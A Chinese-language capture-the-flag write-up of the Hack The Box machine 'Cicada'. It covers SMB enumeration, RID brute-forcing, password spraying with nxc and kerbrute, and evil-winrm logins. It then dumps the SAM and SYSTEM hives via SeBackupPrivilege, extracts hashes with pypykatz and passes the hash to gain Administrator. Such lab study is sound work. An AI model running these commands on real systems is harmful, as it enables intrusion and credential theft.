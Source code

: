 ```yaml
---
description: AD枚举 / SeBackupPrivilege /
---
```


# ✔️ Cicada

## 建立立足点

### 信息收集

* 使用Nmap对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA cicada 10.129.5.101 --open
```

<figure><img src="../../.gitbook/assets/1 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2 (1).png" alt=""><figcaption></figcaption></figure>

* 根据Nmap的输出信息和开放端口，判断该机器应该是域控，先将域名添加进/hosts文件中：

<figure><img src="../../.gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>

* 尝试使用匿名登录SMB服务，获得了一些SMB共享目录：

<figure><img src="../../.gitbook/assets/4.png" alt=""><figcaption></figcaption></figure>

* 依次枚举各个目录后，发现只有/HR目录可以进入，查看后发现一个名为Notice from HR.txt的文本文件，把它下载到本地：

```bash
smbclient \\\\10.129.5.101\\HR
dir
mget *
```

<figure><img src="../../.gitbook/assets/5.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/7.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6.png" alt=""><figcaption></figcaption></figure>

* 查看Notice from HR.txt文件内容得知是一封录用通知，里面包含了一个新入职员工用户的默认密码：<mark style="color:red;">**Cicada$M6Corpb\*@Lp#nZp!8**</mark>

<figure><img src="../../.gitbook/assets/8.png" alt=""><figcaption></figcaption></figure>

* 使用enum4linux进行枚举，没什么收获：

```bash
enum4linux 10.129.5.101
```

<figure><img src="../../.gitbook/assets/9.png" alt=""><figcaption></figcaption></figure>

* 此时已经获取到了一个有效密码，但是还没有有效用户名，使用nxc进行暴破得到一串用户名：

```bash
nxc smb 10.129.5.101 -u "guest" -p '' --rid-brute
```

<figure><img src="../../.gitbook/assets/10.png" alt=""><figcaption></figcaption></figure>

* 把这些用户名复制下来保存为一个username.txt文件，先用kerbrute跑一下有8个有效用户名：

```bash
./kerbrute_linux_amd64 userenum --dc 10.129.5.101 -d cicada.htb username.txt
```

<figure><img src="../../.gitbook/assets/11.png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 然后再使用nxc和用户名列表，还有之前收集到的默认密码，进行暴破：

```bash
nxc smb 10.129.5.101 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

<figure><img src="../../.gitbook/assets/12.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13.png" alt=""><figcaption></figcaption></figure>

* 已获取到了一个有效凭证：<mark style="color:red;">**michael.wrightson :Cicada$M6Corpb\*@Lp#nZp!8**</mark>
* 通过用户michael查询目标系统上更多的用户信息，找到了用户david的密码：

```bash
nxc smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```

<figure><img src="../../.gitbook/assets/9 (29).png" alt=""><figcaption></figcaption></figure>

* 此时又得到了一个新的有效凭证：`david.orelious ：aRt$Lp#7t*VQ!3`，利用该凭证登录share共享目录：

```bash
smbclient -L //10.10.11.35 -U 'david.orelious'
```

<figure><img src="../../.gitbook/assets/10 (31).png" alt=""><figcaption></figcaption></figure>

* 依次枚举各个目录，在\DEV目录中发现一个powershell脚本文件：**Backup\_script.ps1**

```bash
smbclient \\\\10.10.11.35\\DEV -U 'david.orelious'
```

<figure><img src="../../.gitbook/assets/11 (28).png" alt=""><figcaption></figcaption></figure>

* 阅读该脚本发现另一个新的有效凭证：`emily.oscars ：Q!3@Lp#M6b*7t*Vt`

<figure><img src="../../.gitbook/assets/12 (27).png" alt=""><figcaption></figcaption></figure>

* 利用emily这个凭证使用evil-winrm进行登录，get shell：

```bash
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

<figure><img src="../../.gitbook/assets/13 (28).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 上传winPEAS进行信息收集：

```bash
upload winPEASx64.exe
```

<figure><img src="../../.gitbook/assets/14 (25).png" alt=""><figcaption></figcaption></figure>

* 同时可以简单的手动枚举一下，比如当前账户的权限有哪些：

```bash
whoami /priv
```

<figure><img src="../../.gitbook/assets/15 (24).png" alt=""><figcaption></figcaption></figure>

* 发现当前账户有备份操作的权限，这意味着可以利用该特权下载sam.hive文件和system.hive文件，从中提取Administrator的密码哈希，再利用它进行登录

### 漏洞利用

* 创建一个temp目录：

```bash
mkdir C:\temp
```

<figure><img src="../../.gitbook/assets/16 (23).png" alt=""><figcaption></figcaption></figure>

* 将目标系统的sam文件和system文件存到当前的temp目录中：

```bash
reg save hklm\sam C:\temp\sam.hive
reg save hklm\system C:\temp\system.hive
```

<figure><img src="../../.gitbook/assets/17 (21).png" alt=""><figcaption></figcaption></figure>

* 将这两个文件下载到Kali本地

### ROOT

* 使用这两个文件提取凭证：

```bash
pypykatz registry -sam sam.hive system.hive -o secrets.txt
```

<figure><img src="../../.gitbook/assets/18 (20).png" alt=""><figcaption></figcaption></figure>

* 获得Administrator的密码哈希：

<figure><img src="../../.gitbook/assets/19 (20).png" alt=""><figcaption></figcaption></figure>

* 利于获取到的哈希进行登录，获得admin权限的shell：

```bash
evil-winrm -i 10.10.11.35 -u Administrator -H '87e7c93a3e8a0ea4a581937016f341'
```

<figure><img src="../../.gitbook/assets/20 (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21 (15).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}

{% endhint %}
